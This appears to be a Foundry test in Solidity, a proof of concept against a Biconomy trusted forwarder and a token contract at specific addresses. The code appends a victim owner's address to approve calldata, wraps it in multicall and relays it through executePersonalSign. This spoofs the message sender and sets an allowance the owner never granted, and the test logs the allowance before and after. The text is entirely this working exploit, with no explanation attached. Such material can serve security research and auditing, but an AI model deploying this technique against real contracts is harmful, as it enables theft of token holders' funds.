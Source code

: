```solidity
    function testMain() public {
    address owner = address(10001);
    address spender = address(10002);
    
    uint256 signerKey = 1;
    uint256 nonce =0;
    address signer = vm.addr(signerKey);

    address forwarder = 0x84a0856b038eaAd1cC7E297cF34A7e72685A8693;
    // RICH
    address token = 0x5aAEf4659c683D2B00Ef86aa70c6Ab2E5A00BCc7;

    console.log("before", IERC20(token).allowance(owner, spender));
    
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)", spender, 10000);
    data = abi.encodePacked(data, owner);

    bytes[] memory datas = new bytes[](1);
    datas[0] = data;

    data = abi.encodeWithSelector(IMulticall.multicall.selector, datas);

    IBiconomyForwarder.ERC20ForwardRequest memory req;
    req.from = signer;
    req.to = token;
    req.data = data;
    req.deadline = type(uint256).max;
    req.txGas = gasleft();
    req.batchId = 0;
    bytes32 digest = keccak256(
            abi.encodePacked("\x19Ethereum Signed Message:\n32",
            keccak256(
                abi.encodePacked(
                    req.from,
                    req.to,
                    req.token,
                    req.txGas,
                    req.tokenGasPrice,
                    req.batchId,
                    nonce,
                    req.deadline,
                    keccak256(req.data)
                )
            )
        )
    );
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerKey, digest);
    bytes memory sig = abi.encodePacked(r, s, v);

    IBiconomyForwarder(forwarder).verifyPersonalSign(req, sig);
    IBiconomyForwarder(forwarder).executePersonalSign(req, sig);
    console.log("after", IERC20(token).allowance(owner, spender));

  }

}
```

